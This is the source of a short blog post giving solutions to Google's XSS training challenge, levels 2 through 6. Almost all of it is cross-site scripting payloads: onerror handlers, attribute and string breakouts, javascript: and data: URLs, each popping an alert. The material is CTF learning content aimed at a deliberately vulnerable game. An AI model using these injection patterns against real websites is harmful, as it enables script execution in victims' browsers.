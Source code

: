 ```yaml
---
layout:     post
title:      "Xss is old but gold!"
subtitle:   "Google xss challenge Solution!"
date:       2015-10-06 16:47:00
author:     "Heeraj"
header-img: "img/post-bg-02.jpg"
---
```

<p> If you like to read our old blogs you are welcome, <a href="http://heeraj123.wordpress.com">I4INFO</a> </p>

<p>Google XSS challenge solution!</p>

<p>Challenge 2</p>

<blockquote>"ptr=&#x3C;img src=&#x22;hrj&#x22; onerror=&#x22;alert(&#x22;xss&#x22;)&#x3E;"</blockquote>

<p>Challenge 3</p>

<blockquote>&#x27; onerror=&#x27;alert(&#x22;xss&#x22;)&#x27;&#x3E;</blockquote>

<p>Challenge 4</p>

<blockquote>');alert('xss</blockquote>

<p>Challenge 5</p>

<blockquote>javascript%3Aalert(%22xss%22)</blockquote>

<p>Challenge 6</p>

<blockquote>#data:text/plain,alert('xss')</p>

<p>Stay tuned!<br> Untill we come with our another blog!</p>





